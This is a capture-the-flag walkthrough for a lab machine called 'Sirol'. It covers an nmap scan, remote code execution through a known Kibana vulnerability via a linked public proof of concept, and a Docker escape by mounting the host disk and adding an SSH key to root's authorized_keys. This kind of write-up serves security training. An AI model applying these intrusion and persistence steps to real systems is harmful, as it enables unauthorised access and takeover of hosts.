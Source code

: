# Sirol

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.219.54
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 11:18 +08
Nmap scan report for 192.168.219.54
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
3306/tcp  open   mysql
5601/tcp  open   esmagent
24007/tcp open   unknown
```

### Kibana RCE

Port 5601 had a Kibana instance running:

<figure><img src="../../../.gitbook/assets/image (16) (2).png" alt=""><figcaption></figcaption></figure>

Using the Dev Tools Console, we can check the version that is running:

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

This version is vulnerable to an RCE exploit:

{% embed url="https://github.com/Cr4ckC4t/cve-2019-7609" %}

Using the above PoC, we can get a shell on the Docker Container:

<figure><img src="../../../.gitbook/assets/image (20) (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Mount --> Docker Escape

We can use `fdisk` to check the drives that are available:

```
root@0873e8062560:/tmp# fdisk -l
Disk /dev/sda: 20 GiB, 21474836480 bytes, 41943040 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x16939df4

Device     Boot    Start      End  Sectors Size Id Type
/dev/sda1  *        2048 37750783 37748736  18G 83 Linux
/dev/sda2       37752830 41940991  4188162   2G  5 Extended
/dev/sda5       37752832 41940991  4188160   2G 82 Linux swap / Solaris
```

`/dev/sda1` was likely to be the host machine, and we can try to use `mount` on it:

```
root@0873e8062560:/tmp# mkdir /mnt/tmp
root@0873e8062560:/tmp# mount /dev/sda1 /mnt/tmp
```

The above commands would give us `root` access over the host machine's file system:

<figure><img src="../../../.gitbook/assets/image (17) (7).png" alt=""><figcaption></figcaption></figure>

Using this, we can `echo` our own SSH public key into the `authorized_keys` folder for the `root` user, and then just `ssh` in:

<figure><img src="../../../.gitbook/assets/image (11) (5).png" alt=""><figcaption></figcaption></figure>

Rooted!
